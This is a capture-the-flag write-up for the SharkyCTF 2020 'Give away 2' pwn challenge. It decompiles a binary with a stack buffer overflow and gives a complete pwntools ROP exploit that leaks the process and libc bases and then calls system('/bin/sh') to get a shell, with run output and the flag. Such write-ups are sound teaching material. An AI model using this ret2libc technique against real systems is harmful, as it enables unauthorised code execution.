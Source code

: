 # SharkyCTF 2020

## Give away 2

>293
>
> Make good use of this gracious give away.
>
> `nc sharkyctf.xyz 20335`
>
> Creator: Hackhim
>
> [`give_away_1`](give_away_2) [`libc-2.27.so`](libc-2.27.so)

Tags: _pwn_ _bof_ _x86-64_ _rop_


## Summary

Overflow buffer; `main` address leak, followed by libc leak, and then a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary; buffer overflow vulnerability.

    
### Decompile with Ghidra

```c
undefined8 main(void)

{
  init_buffering();
  printf("Give away: %p\n",main);
  vuln();
  return 0;
}
```

Address of `main` leaked.  However, with PIE/ASLR and no `win` function, we'll have to leak libc ourselves and call `vuln` for a 2nd pass.

```c
void vuln(void)

{
  char local_28 [32];
  
  fgets(local_28,0x80,stdin);
  return;
}
```

`32` != `0x80` (128).  A roomy vulnerability.

`local_28` is `0x28` bytes above the return address.


## Exploit

### First Pass

```python
#!/usr/bin/python3

from pwn import *

p = process('./give_away_2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#p = remote('sharkyctf.xyz', 20335)
#libc = ELF('libc-2.27.so')

context.clear(arch='amd64')

p.recvuntil('Give away: ')
main = int(p.recvline().strip(),16)

binary = ELF('./give_away_2')
procbase = main - binary.symbols['main']
print('procbase: ' + hex(procbase))

rop = ROP('./give_away_2')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
    print('pop_rdi: ' + hex(pop_rdi + procbase))
except:
    print("no ROP for you!")
    sys.exit(1)

payload  = 0x28 * b'A'
payload += p64(procbase + pop_rdi + 1)
payload += p64(procbase + pop_rdi)
payload += p64(procbase + binary.got['printf'])
payload += p64(procbase + binary.plt['printf'])
payload += p64(procbase + binary.symbols['vuln'])

# check load
if payload.find(b'\xa0') != -1:
    print("payload has NL!")
    print(payload)
    sys.exit(1)

p.sendline(payload)
```

> The extra `ret` (`payload += p64(procbase + pop_rdi + 1)`) is required to align the stack, see Blind Piloting for a lengthly example and explanation.

The first pass will collect the leaked `main` and compute base process address, with that + GOT we can leak the address of `printf` by having `printf` emit its own address.

Lastly, we have to return back to `vuln` for the second pass.


### Second Pass

```
printf=u64(p.recv(6)+b'\x00\x00')
libcbase = printf - libc.symbols['printf']
print("libcbase: " + hex(libcbase))

payload  = 0x28 * b'A'
payload += p64(procbase + pop_rdi)
payload += p64(libcbase + next(libc.search(b"/bin/sh")))
payload += p64(libcbase + libc.symbols['system'])

# check load
if payload.find(b'\xa0') != -1:
    print("payload has NL!")
    print(payload)
    sys.exit(1)

p.sendline(payload)
p.interactive()

```

With address of `printf` leaked, computing the base of libc is trivial.

The new payload just pops the address of `/bin/sh` off the stack and calls `system` for a shell.

Output:

```
# ./exploit.py
[+] Opening connection to sharkyctf.xyz on port 20335: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/sharkyctf2020/giveaway2/give_away_2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
procbase: 0x564a0f699000
[*] Loading gadgets for '/pwd/datajerk/sharkyctf2020/giveaway2/give_away_2'
pop_rdi: 0x564a0f699903
libcbase: 0x7fe5d4cac000
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{It's_time_to_get_down_to_business}
```